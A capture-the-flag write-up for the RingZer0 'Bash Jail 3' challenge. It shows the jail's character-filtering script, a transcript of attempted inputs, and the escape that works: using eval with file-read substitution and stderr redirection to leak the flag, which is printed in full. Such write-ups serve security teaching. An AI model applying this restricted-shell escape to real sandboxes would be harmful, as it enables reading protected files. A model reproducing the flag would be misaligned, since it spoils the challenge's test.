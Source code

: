 # Bash Jail 3

__PROBLEM__

 User: level3
Password is the previous jail challenge flag

__SOLUTION__

```bash
➜ ssh level3@challenges.ringzer0team.com -p 10218
level3@challenges.ringzer0team.com password:

Permission denied, please try again.
level3@challenges.ringzer0team.com password:
Permission denied, please try again.
level3@challenges.ringzer0team.com password:

RingZer0 Team Online CTF

BASH Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge bash code:
-----------------------------

WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

# CHALLENGE

function check_space {
        if [[ $1 == *[bdksc]* ]]
        then
                return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input"
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`$input` &>/dev/null
                echo "Command executed"
        fi
done

-----------------------------
Your input:
$(<flag.txt)
Command executed
Your input:
$(<flag.txt) 2>&0
Command executed
Your input:
eval $(<flag.txt) 2>&0
./real.sh: line 39: FLAG-s9wXyc9WKx1X6N9G68fCR0M78sx09D3j: command not found
Command executed
Your input:
```

Basically we use `eval` to concatenate some redirections.

FLAG - `FLAG-s9wXyc9WKx1X6N9G68fCR0M78sx09D3j`
